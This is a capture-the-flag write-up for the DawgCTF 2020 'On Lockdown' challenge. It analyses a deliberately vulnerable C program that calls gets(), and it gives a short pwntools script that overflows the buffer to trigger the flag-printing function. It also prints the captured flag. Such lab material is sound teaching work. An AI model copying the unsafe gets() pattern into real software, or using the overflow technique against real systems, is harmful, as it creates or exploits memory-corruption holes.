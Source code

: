 # DawgCTF 2020

## On Lockdown

> 50
>
> Better than locked up I guess
>
> `nc ctf.umbccd.io 4500`
> 
> Author: trashcanna
> 
> [onlockdown](onlockdown) [onlockdown.c](onlockdown.c)

Tags: _pwn_ _bof_


### Analysis

#### Checksec

```
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Most mitigations in place, however can smash stack, ROP, buffer overflow, but no GOT.


#### Source Included!

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void flag_me(){
    system("cat flag.txt");
}

void lockdown(){
    int lock = 0;
    char buf[64];
    printf("I made this really cool flag but Governor Hogan put it on lockdown\n");
    printf("Can you convince him to give it to you?\n");
    gets(buf);
    if(lock == 0xdeadbabe){
        flag_me();
    }else{
        printf("I am no longer asking. Give me the flag!\n");
    }
}

int main(){
    lockdown();
    return 0;
}
```

Just need to set `lock` to `0xdeadbabe`.

But wait, from Ghidra:

```c
void lockdown(void)

{
  char local_50 [64];
  int local_10;
  
  local_10 = 0;
  puts("I made this really cool flag but Governor Hogan put it on lockdown");
  puts("Can you convince him to give it to you?");
  gets(local_50);
  if (local_10 == 0) {
    puts("I am no longer asking. Give me the flag!");
  }
  else {
    flag_me();
  }
  return;
}
```

And `objdump`:

```
    1230:	83 7d f4 00          	cmp    DWORD PTR [ebp-0xc],0x0
    1234:	74 07                	je     123d <lockdown+0x59>
    1236:	e8 7e ff ff ff       	call   11b9 <flag_me>
    123b:	eb 12                	jmp    124f <lockdown+0x6b>
```

`lock` just has to be non-zero!  You can accidentally solve this by blasting a lot of anything.

There is clearly a buffer overflow: `gets(local_50)`.  `local_50` is 76 bytes above EBP: 

```
00011224 8d 45 b4        LEA        EAX=>local_50,[EBP + -0x4c]
```

`local_10` is 12 (`[ebp-0xc]`) bytes above EBP, so sending 64 (76-12) bytes + 4 bytes will set `local_10`.


### Exploit

```python
from pwn import *

p = process('./onlockdown')
#p = remote('ctf.umbccd.io', 4500)

p.recvuntil('you?\n')

payload  = 64 * b'A'
payload += 4 * b'A'

p.sendline(payload)
p.stream()
```

#### Output

```
[+] Opening connection to ctf.umbccd.io on port 4500: Done
DawgCTF{s3ri0u$ly_st@y_h0m3}
```

#### Flag

```
DawgCTF{s3ri0u$ly_st@y_h0m3}
```
